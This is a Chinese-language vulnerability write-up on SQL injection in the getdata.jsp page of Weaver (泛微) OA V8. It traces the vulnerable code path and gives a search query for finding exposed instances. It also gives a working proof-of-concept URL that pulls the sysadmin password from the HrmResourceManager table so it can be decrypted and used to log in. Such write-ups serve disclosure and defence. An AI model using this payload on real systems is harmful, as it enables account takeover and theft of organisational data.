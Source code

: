 # 泛微OA getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :** 

方法处理



![img](../../../.vuepress/public/img/fanwei-17.png)



在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法



![img](../../../.vuepress/public/img/fanwei-18.png)



Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![img](../../../.vuepress/public/img/fanwei-19.png)





POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![img](../../../.vuepress/public/img/fanwei-20.png)



解密后即可登录系统

![img](../../../.vuepress/public/img/fanwei-21.png)